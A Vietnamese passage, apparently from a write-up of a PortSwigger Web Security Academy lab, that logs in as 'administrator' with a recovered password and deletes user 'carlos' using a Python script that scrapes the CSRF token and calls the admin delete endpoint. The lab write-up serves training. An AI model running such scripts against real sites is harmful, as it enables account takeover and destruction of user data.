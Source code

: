 ![image](https://hackmd.io/_uploads/SkDC0K-3p.png)

Đăng nhập với tài khoản `administrator:wli2f2dwpjhhp5x7k4hl` và xóa người dùng calos

![image](https://hackmd.io/_uploads/rk9Nkc-ha.png)

mình đã viết script khai thác

```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a7e009004fa9699800121fe005500db.web-security-academy.net'

session=requests.Session()

response = session.get(
    url +'/login',
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']
session_data = response.headers['Set-Cookie'].split(';')[0].split('=')[1]

cookies = {
    'session': session_data,
}

ADMIN_PASSWORD = 'wli2f2dwpjhhp5x7k4hl'

data = {
    'csrf': csrf,
    'username': 'administrator',
    'password': ADMIN_PASSWORD,
}

response = session.post(
    url+'/login',
    cookies=cookies,
    data=data,
    verify=False,
    allow_redirects=False
)

session_data = response.headers['Set-Cookie'].split(';')[0].split('=')[1]
cookies = {
    'session': session_data,
}

response = session.get(
    url +'/admin/delete?username=carlos',
    cookies=cookies,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```
